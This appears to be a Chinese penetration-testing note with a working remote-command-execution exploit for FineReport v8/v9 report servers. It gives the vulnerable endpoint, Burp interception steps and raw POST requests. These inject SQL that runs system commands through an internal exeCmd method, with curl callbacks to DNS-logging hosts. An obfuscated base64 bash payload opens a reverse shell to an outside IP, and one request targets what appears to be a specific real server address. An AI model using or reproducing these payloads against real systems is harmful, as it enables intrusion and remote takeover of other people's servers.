 帆软报表 FineRePortv8.0 帆软报表 FineRePortv9.0

首先访问 http://218.13.34.106:8080/ReportServer?op=fr\_log\&cmd=fg\_errinfo\&fr\_username=posun

```
xxx.com/WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin

这个接口 打开 点查询 burp拦截数据包 替换post的内容

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://ydtfo5.ceye.io');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

```
POST /WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Content-Length: 675

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://hfgzn5.dnslog.cn');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMS4xMTcuNTEuMjUzLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}

* 参考链接
  * https://github.com/ffffffff0x/1earn/blob/0583f77f62d63f93b1c519efc57327003feec4ed/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#%E5%B8%86%E8%BD%AF

POST /ReportServer?op=fr\_dialog\&cmd=parameters\_d\&sessionID=Slave\_48611 HTTP/1.1 Host: 218.13.34.106:8080 Content-Length: 288 Accept: _/_ X-Requested-With: XMLHttpRequest User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36 Content-Type: application/x-www-form-urlencoded; charset=UTF-8 Origin: http://218.13.34.106:8080 Referer: http://218.13.34.106:8080/ReportServer?op=fr\_log\&cmd=fg\_errinfo\&fr\_username=posun Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: uid=edc66f8f-b932-4719-9709-7f8efdc47fb9 Connection: close

**parameters**={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR "com.fr.chart.phantom.system.SystemServiceUtils.exeCmd";CALL RUMCMD('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMS4xMTcuNTEuMjUzLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}');select msg, trace, sinfo, logtime from fr\_errrecord where 1=1","LABEL3":"START\_TIME:","START\_TIME":"2020-08-11 00:00","LABEL5":"END\_TIME:","END\_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}

### 致远

相关工具：https://github.com/XiaoBai-12138/OA-EXP 相关案例：渗透测试：从Web到内网：https://mp.weixin.qq.com/s/mld3C-cCY4alHQ6IyQm8Wg

